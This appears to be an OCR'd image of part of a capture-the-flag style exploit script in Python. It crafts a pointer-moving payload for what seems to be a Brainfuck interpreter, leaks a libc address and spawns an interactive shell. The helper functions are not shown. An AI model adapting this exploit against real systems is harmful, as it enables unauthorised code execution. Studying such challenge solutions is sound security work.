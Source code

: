 ```python
    payload = b'>' * 0x104
    payload += (minus_to_zero + b'>') * space
    payload += b'<' * space
    payload += bytes(ll2bf(target), 'ascii')
    # payload = minimize(payload)

    log.info(f'payload length: 0x{hex(len(payload))}')
    if len(payload) >= 0xFFFF:
        raise 'payload too long'

    r.sendline(payload)


def main():
    r = conn()
    libc_start_main = leak_libc(r)
    input('getshell')
    getshell(r, libc_start_main)
    r.interactive()


if __name__ == "__main__":
    main()

```





